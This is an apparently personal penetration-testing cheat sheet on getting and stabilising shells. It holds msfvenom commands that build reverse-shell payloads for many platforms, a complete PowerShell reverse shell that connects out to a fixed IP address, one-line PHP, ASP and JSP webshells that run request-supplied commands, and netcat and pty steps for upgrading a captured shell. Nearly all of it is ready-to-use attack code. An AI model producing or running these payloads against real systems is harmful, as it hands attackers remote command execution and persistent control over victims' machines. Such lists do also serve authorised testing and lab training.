 # Shells

## Reverse shells


#### Linux - MSFVenom
```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

#### Windows - MSFVenom
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

#### Powershell
```
powershell -nop -exec bypass -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.119.194',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
#### ASP
```
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
```
#### ASPX
```
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f aspx > shell.aspx
```
#### JSP
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
```
#### WAR
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
```
#### PHP
```
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```
#### HTA
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f hta-psh > shell.hta
```

#### DLL
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f dll > shell.dll
```

## Online Generator
```
<https://www.revshells.com/>
<https://weibell.github.io/reverse-shell-generator/>
```

## Single line Webshell

#### PHP
```
<?php echo passthru($_GET['cmd']); ?>
<?php echo shell_exec($_GET['cmd']); ?>
```
#### ASP
```
<% eval request("cmd") %>
```
#### JSP
```
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

## Shell Stabilisation

#### Technique 01: Python
```
➤ Step 01 : uses Python to spawn a better featured bash shell
python -c 'import pty;pty.spawn("/bin/bash")'

➤ Step 02: this will give us access to term commands such as clear
export TERM=xterm

➤ Step 03: background the shell using Ctrl + Z
CRTL+Z

➤ Step 04: Back in our own terminal we use stty raw -echo; fg. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.
stty raw -echo; fg

Note that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type reset and press enter.

➤ Example: 
kiosec@lab:~$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.0.0.1] from (unknown) [10.1.1.1] 43298

python3 -c 'import pty;pty.spawn("/bin/bash")'
user@box:~$ export TERM=xterm
export TERM=xterm
user@box:~$ ^Z
[1]+ Stopped            sudo nc -lvnp 443
kiosec@lab:~$ stty rauw -echo; fg
nc -lvnp 443

user@box:~$ whoami
user
user@box:~$ ^C
user@box:~$
```

#### Technique 02: Rlwrap
rlwrap gives a more fully featured shell including access to history, tab autocompletion and the arrow keys immediately upon receiving a shell.
This technique is particularly useful with the Windows shell.
```
➤ Step 01: Install rlwrap (not installed by default on the kali)
apt install rlwrap

➤ Step 02: Invoke the listener.
rlwrap nc -lnvp <port> 

[additional steps for Linux target]
➤ Step 03: background the shell using Ctrl + Z
CRTL+Z

➤ Step 04: Back in our own terminal we use stty raw -echo; fg. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.
stty raw -echo; fg
```

#### Technique 3: Socat
Restricted to Linux target
```
➤ Step 01: Transfer a socat static compiled binary (e.g., using python http.server)
➤ Step 02: Use Socat
```
